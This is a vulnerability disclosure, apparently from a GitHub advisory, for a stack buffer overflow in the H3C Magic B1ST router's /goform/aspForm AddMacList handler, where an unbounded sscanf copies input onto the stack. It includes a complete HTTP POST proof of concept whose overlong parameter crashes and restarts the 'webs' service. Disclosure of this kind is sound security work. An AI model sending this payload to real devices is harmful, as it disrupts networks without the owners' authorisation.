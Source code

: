 ## Overview

> Vendor: H3C
> Product: Magic B1ST
> Version: H3C_Magic_B1STV100R012
> Type: Stack Overflow

## Vulnerability

In route`/goform/aspForm`, the value of the key `CMD` is `AddMacList`, the program will go into the following handling function.

![image-20230610001456624](assets/image-20230610001456624.png)

First it get the value of the key `param`, then use `sscanf` to copy the the value of `param` to a array `v12` on the stack. The parameter `%s` of `sscanf` didn't limit the copy length.

![image-20230610001708200](assets/image-20230610001708200.png)

## PoC

```http
POST /goform/aspForm HTTP/1.1
Host: 192.168.124.1
Content-Length: 320
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.124.1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.124.1/wan_new.asp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PSWMOBILEFLAG=true; USERLOGINIDFLAG=; LOGIN_PSD_REM_FLAG=
Connection: close

CMD=AddMacList&param=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;;;;
```

## Result

the process `webs` restart

![image-20230610122745129](assets/image-20230610122745129.png)
